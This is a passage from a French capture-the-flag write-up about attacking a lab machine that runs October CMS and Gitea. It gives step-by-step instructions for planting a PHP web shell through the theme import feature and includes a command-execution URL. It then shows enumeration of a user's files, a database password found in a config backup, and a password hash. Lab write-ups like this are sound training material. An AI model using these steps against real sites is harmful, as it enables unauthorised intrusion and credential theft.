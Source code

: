 J'ai ensuite remarqué un mécanisme d'import / export sur les thèmes du CMS. Ma technique a été la suivante :  

1. Prendre un thème existant, cliquer sur *Manage* puis *Export*, télécharger l'archive ZIP générée
2. Dézipper l'archive, ajouter le shell PHP dans le dossier *assets* (à la racine de l'archive ce n'est pas pris en compte)
3. Recréer une archive zip : *zip -r new\_theme .*
4. Dans la page des thèmes, cliquer sur *Create a new blank theme* et saisir le dossier de destination du thème
5. Sur ce nouveau thème cliquer sur *Import* avec l'option *Overwrite existing files* et uploader l'archive

Et voilà, un beau shell avec l'utilisateur www-data : *http://192.168.56.20/themes/test/assets/shell.php?cmd=id*.  

So good I did it twice
----------------------

Une fois un shell interactif récupéré il n'y a rien qui me saute aux yeux. On peut toutefois lister les fichiers de l'utilisateur *frank* sur le système :  

```plain
$ find / -user frank -ls | grep -v /proc/
   656007      4 drwxr-xr-x   7 frank    frank        4096 Nov 19  2020 /var/lib/gitea
   662525      4 drwxr-xr-x   2 frank    frank        4096 Nov 19  2020 /var/lib/gitea/custom
   665045      4 drwxr-x---   2 frank    frank        4096 Nov 19  2020 /var/lib/gitea/log
   665017      4 drwxr-x---   3 frank    frank        4096 Nov 19  2020 /var/lib/gitea/indexers
   665000      4 drwxr-x---   7 frank    frank        4096 Nov 19  2020 /var/lib/gitea/data
   665040      4 drwxr-xr-x   2 frank    frank        4096 Nov 19  2020 /var/lib/gitea/public
   656501     56 -rw-r--r--   1 frank    frank       56688 Nov 19  2020 /var/backups/app.ini.bak
   919157 104928 -rwxrwxr-x   1 frank    frank    107443064 Nov 19  2020 /usr/local/bin/gitea
   408540      4 drwxr-x---   3 frank    frank         4096 Feb  1 15:57 /opt/gitea
   410236      4 drwxr-x---   7 frank    frank         4096 Nov 19  2020 /home/frank
   535852      4 drwxr-x---   2 frank    frank         4096 Nov 19  2020 /etc/gitea
```

Le fichier de backup semble une piste crédible :  

```plain
[database]
; Database to use. Either "mysql", "postgres", "mssql" or "sqlite3".
DB_TYPE             = mysql
HOST                = 127.0.0.1:3306
NAME                = gitea
USER                = gitea
; Use PASSWD = `your password` for quoting if you use special characters in the password.
PASSWD              = UfFPTF8C8jjxVF2m
```

Mais ce mot de passe ne permet pas d'accéder au compte *frank* via su, ni même celui du October...  

Retour sur *Adminer* donc pour étudier la base SQL *gitea*. Il y a un compte frank enregistré sur l'appli :  

```plain
INSERT INTO `user` (`id`, `lower_name`, --- snip ---
VALUES (1,     'frank',        'frank',        '',     'frank@devguru.local',  0,      'enabled',
'c200e0d03d1604cee72c484f154dd82d75c7247b04ea971a96dd1def8682d02488d0323397e26a18fb806c7a20f0b564c900', 'pbkdf2',0
--- snip ---
```

